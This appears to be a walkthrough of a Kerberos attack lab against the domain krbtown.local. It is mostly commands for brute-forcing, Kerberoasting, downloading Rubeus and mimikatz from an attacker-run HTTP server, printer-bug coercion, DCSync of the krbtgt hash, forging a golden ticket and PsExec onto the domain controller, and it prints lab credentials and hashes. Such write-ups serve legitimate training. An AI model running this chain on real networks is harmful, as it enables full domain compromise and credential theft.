


---
---

# IML - Kerberos: Ep.13 – Demonstrate your skills


# 

```bash
./kerbrute bruteuser -d krbtown.local --dc 10.102.11.232 /usr/share/wordlists/krbpasswords.txt s.villanelle

```


- Got valid credentials


- Use credentials to rdp
```bash
xfreerdp /v:10.102.30.15 /u:s.villanelle /d:krbtown.local +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```
- Token: 8dae10


- Upload Rubeus to workstation-01

```bash
python3 -m http.server 8080

```


```bash
curl http://10.102.30.234:8080/Rubeus.exe > Rubeus.exe

```


- Open admin PS - Run rubeus.exe
.\Rubeus.exe kerberoast /user:mssql_svc /outfile:hashes.kerberoast


- Copy and save hash to Kali (hash.txt)

- Use john (no hashcat):
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=krb5tgs

- Password: **blink182!**

- RDP to wks-02:
```bash
xfreerdp /v:10.102.52.164 /u:mssql_svc /p:blink182! /d:krbtown.local +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```


- Set up python server in Tools:
```bash
python -m http.server

```
- Use the native Powershell command to curl (this doesn't corrupt the file):
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/PowerView-Dev.ps1','PowerView-Dev.ps1')

```
- Enumerating for unconstrained delegation:
```bash
Get-DomainComputer -Unconstrained -Properties dnshostname

```


- We are already on wks-02

- Set up python server and download Rubeus, MS-RPRN, PsExec64 and mimikatz:
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/Rubeus.exe','Rubeus.exe')

(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/MS-RPRN.exe','C:\Users\mssql_svc\MS-RPRN.exe')

(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/PsExec64.exe','C:\Users\mssql_svc\PsExec64.exe')

(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/mimikatz.exe','C:\Users\mssql_svc\mimikatz.exe')

```
- Open an elevated command prompt and monitor for TGT **(Open in CMD, not PS)**:
```bash
.\Rubeus.exe monitor /interval:1 /nowrap

```
- To force a connection to our compromised host Workstation-02, you can use the MS-RPRN tool by running it on an elevated PowerShell prompt:
```bash
.\MS-RPRN.exe \\DC01.krbtown.local \\Workstation-02.krbtown.local

```


If no wrap wasn't used:
- Copy the Base64 ticket and paste into Kali (ticket.txt):
**Remove empty lines and white spaces from the Base64 ticket before passing it through Rubeus:**

```python
python3 -c 'f=open("ticket.txt").read();import re;print(re.sub(r"\[\n\t\s\]\*", "", f))'
```
- Copy the output and paste into the command (on Windows):
```bash
[IO.File]::WriteAllBytes("C:\Users\mssql_svc\DC.kirbi", [Convert]::FromBase64String("Base64 Ticket"))

```
(Change the directory to where Rubeus is)

Convert from Base64 and saves it in **DC.kirbi**:

- Load the ticket into memory:
```bash
.\Rubeus.exe ptt /ticket:DC.kirbi

```
or

```bash
.\Rubeus.exe ptt /ticket:\<base64\>

```
or with

```bash
.\mimikatz.exe

kerberos::ptt DC.kirbi

```


- Check with klist



- Run:
```bash
.\mimikatz.exe
lsadump::dcsync /domain:krbtown.local /user:krbtgt

```


- Copy the NTLM hash and the SID:


**\*\* The SID is the highlighted text above - Not including the last part (-502)  
That part is specific to that user account**

- Run mimikatz
- Create Kerberos Golden ticket with the information gathered above:
```bash
kerberos::golden /domain:krbtown.local /sid:S-1-5-21-839606329-3182976252-758991142 /krbtgt:9a60db81a985dd1b22b3d34fa598fe19 /user:Administrator

```
The **/user:** is a username we make up ourselves.

This can be anything but Administrator is less conspicuous





- Run .\mimikatz.exe again with the following command:
```bash
kerberos::ptt ticket.kirbi

```


- Check with klist


- Now that we have a Golden Ticket in memory (TGT) for administrator on the DC, you can use PsExec to log in to the DC:

```bash
.\PsExec64.exe \\dc01.krbtown.local cmd

```
**\*\*Need to use the DNS name to force the use of Kerberos**


